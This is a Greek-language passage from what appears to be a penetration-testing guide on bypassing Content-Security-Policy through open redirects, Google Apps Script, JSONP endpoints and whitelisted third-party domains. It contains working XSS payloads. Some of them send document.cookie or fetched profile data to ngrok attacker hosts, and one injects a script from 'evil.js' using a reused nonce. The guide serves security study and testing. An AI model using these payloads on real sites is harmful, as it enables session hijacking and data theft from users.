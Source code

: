```html
b=doc.createElement("script");
b.src="//example.com/evil.js";
b.nonce=a.nonce; doc.body.appendChild(b)'>
```
#### Κατάχρηση του www.google.com για ανοικτή ανακατεύθυνση

Το παρακάτω URL ανακατευθύνει στο example.com (από [εδώ](https://www.landh.tech/blog/20240304-google-hack-50000/)):
```
https://www.google.com/amp/s/example.com/
```
### Κατάχρηση \*.google.com/script.google.com

Είναι δυνατή η κατάχρηση του Google Apps Script για τη λήψη πληροφοριών σε μια σελίδα μέσα στο script.google.com. Όπως γίνεται [σε αυτήν την αναφορά](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Τρίτες Συνδέσεις + JSONP
```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
Σε περιπτώσεις όπως αυτή όπου το `script-src` έχει οριστεί σε `self` και ένα συγκεκριμένο τομέα που έχει προστεθεί στη λευκή λίστα, μπορεί να παρακαμφθεί χρησιμοποιώντας το JSONP. Τα σημεία JSONP επιτρέπουν μη ασφαλείς μεθόδους κλήσης που επιτρέπουν σε έναν επιτιθέμενο να εκτελέσει XSS, λειτουργικό φορτίο:
```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[**JSONBee**](https://github.com/zigoo0/JSONBee) **περιέχει έτοιμα σημεία JSONP για την παράκαμψη του CSP σε διάφορες ιστοσελίδες.**

Η ίδια ευπάθεια θα εμφανιστεί αν το **αξιόπιστο σημείο περιέχει μια Ανοικτή Ανακατεύθυνση** επειδή αν το αρχικό σημείο είναι αξιόπιστο, οι ανακατευθύνσεις είναι αξιόπιστες.

### Κατάχρηση από τρίτους

Όπως περιγράφεται στην [ακόλουθη ανάρτηση](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses), υπάρχουν πολλοί τομείς τρίτων, που ενδέχεται να επιτρέπονται κάπου στο CSP, μπορούν να καταχραστούν είτε για την εξαγωγή δεδομένων είτε για την εκτέλεση κώδικα JavaScript. Μερικοί από αυτούς τους τρίτους είναι:

| Οντότητα         | Επιτρεπόμενος Τομέας                         | Δυνατότητες  |
| ----------------- | -------------------------------------------- | ------------ |
| Facebook          | www.facebook.com, \*.facebook.com            | Εξαγωγή     |
| Hotjar            | \*.hotjar.com, ask.hotjar.io                 | Εξαγωγή     |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net            | Εκτέλεση    |
| Amazon CloudFront | \*.cloudfront.net                            | Εξαγωγή, Εκτέλεση  |
| Amazon AWS        | \*.amazonaws.com                             | Εξαγωγή, Εκτέλεση  |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | Εξαγωγή, Εκτέλεση  |
| Salesforce Heroku | \*.herokuapp.com                             | Εξαγωγή, Εκτέλεση  |